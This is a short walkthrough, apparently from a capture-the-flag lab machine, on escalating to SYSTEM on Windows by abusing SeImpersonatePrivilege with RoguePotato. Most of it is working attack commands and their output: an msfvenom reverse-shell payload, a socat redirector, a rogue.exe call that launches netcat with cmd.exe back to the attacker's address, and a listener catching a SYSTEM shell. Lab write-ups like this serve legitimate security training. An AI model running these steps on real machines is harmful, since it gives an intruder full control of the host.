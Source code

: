 ## how to exploit SeImpersonatePrivilege using a RoguePotato binary

with roguepotato binary we can use get with this approach here, just make this binary is present on the target machine and a location that is writable oky hackerB0y.

## requirements 
1. we need to generate a binary on our machine with msfvenom
```
command: msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.29 LPORT=4444 -a x64 --platform Windows -f exe -o shell.exe
```
```
┌──(alienx㉿alienX)-[~/Desktop/MACHINES/REMOTE]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.29 LPORT=4444 -a x64 --platform Windows -f exe -o shell.exe                           
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe

```

2.  we need to run this command on our machine

    **command**: sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.10.180:9999
```
┌──(alienx㉿alienX)-[~/Desktop/MACHINES/REMOTE]
└─$ sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.10.180:9999
[sudo] password for alienx: 
2024/04/13 09:09:26 socat[32866] E read(5, 0x5608bdf2e000, 8192): Connection reset by peer
2024/04/13 09:09:26 socat[32867] E read(5, 0x5608bdf2e000, 8192): Connection reset by peer
2024/04/13 09:10:21 socat[32870] E read(5, 0x5608bdf2e000, 8192): Connection reset by peer
2024/04/13 09:11:28 socat[32948] E read(5, 0x5608bdf2e000, 8192): Connection reset by peer

```

3.  we need to run this command on our target machine
```
 command: rogue.exe -r 10.10.16.29 -e "c:\users\public\desktop\nc.exe 10.10.16.29 4444 -e cmd.exe" -l 9999
```
```
C:\Users\Public\desktop>rogue.exe -r 10.10.16.29 -e "c:\users\public\desktop\nc.exe 10.10.16.29 4444 -e cmd.exe" -l 9999                                                                                                                      
rogue.exe -r 10.10.16.29 -e "c:\users\public\desktop\nc.exe 10.10.16.29 4444 -e cmd.exe" -l 9999                                                                                                                                              
[+] Starting RoguePotato...
[*] Creating Rogue OXID resolver thread
[*] Creating Pipe Server thread..
[*] Creating TriggerDCOM thread...
[*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
[*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}
[*] Starting RogueOxidResolver RPC Server listening on port 9999 ... 
[*] IStoragetrigger written:104 bytes
[*] SecurityCallback RPC call
[*] ResolveOxid2 RPC call, this is for us!
[*] ResolveOxid2: returned endpoint binding information = ncacn_np:localhost/pipe/RoguePotato[\pipe\epmapper]
[*] Client connected!                                      
[+] Got SYSTEM Token!!!                                    
[*] Token has SE_ASSIGN_PRIMARY_NAME, using CreateProcessAsUser() for launching: c:\users\public\desktop\nc.exe 10.10.16.29 4444 -e cmd.exe
[+] RoguePotato gave you the SYSTEM powerz :D

```

4. set a netcat listerner and wait for response
```
┌──(alienx㉿alienX)-[~/Desktop/MACHINES/REMOTE]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.29] from (UNKNOWN) [10.10.10.180] 49770
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Public\desktop>whoami
whoami
nt authority\system

C:\Users\Public\desktop>


```

## WERE DONE WITH ROGUEPOTATO BINARY HOPE U ENJOYED THE SHELL
